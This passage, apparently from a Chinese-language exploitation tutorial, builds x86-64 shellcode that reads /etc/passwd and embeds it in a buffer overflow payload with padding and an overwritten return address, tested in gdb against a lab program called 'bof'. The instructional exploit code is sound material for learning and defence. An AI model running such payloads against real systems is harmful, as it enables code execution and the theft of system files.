 ```
$ nasm -f elf64 readfile.asm -o readfile.o 
$ for i in $(objdump  -d readfile.o | grep "^ " | cut  -f2); do echo  -n  '\x'$i; done; echo 
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x6 
6\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x 
0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\ 
xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f 
\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41 

```

这个 shellcode 长 82 字节。来构造最终的载荷吧。

原来的载荷

```
$(python -c 'print "A" * 264 + "\x7f\xff\xff\xff\xdc\x90"[::-1]') 

```

我们要保证一样的大小所以 264 - 82 = 182

```
$(python -c 'print "A" * 182 + "\x7f\xff\xff\xff\xdc\x90"[::-1]') 

```

然后把 shellcode 接在开头

```
$(python -c 'print  
"\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x 
66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\ 
x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31 
\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2 
f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + "A" * 182 +  
"\x7f\xff\xff\xff\xdc\x90"[::-1]') 

```

来把所有东西一块儿测试

```
$ gdb –tui bof 
(gdb) run $(python -c 'print  
"\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x 
66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\ 
x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31 
\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2 
f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" + "A" * 182 +  
"\x7f\xff\xff\xff\xdc\x90"[::-1]') 

```

如果一切正常你就会看到/etc/passwd 的内容。要注意内存地址是可以变化的这样可能就和我这里的不同了。

## 0x07 GDB vs 现实
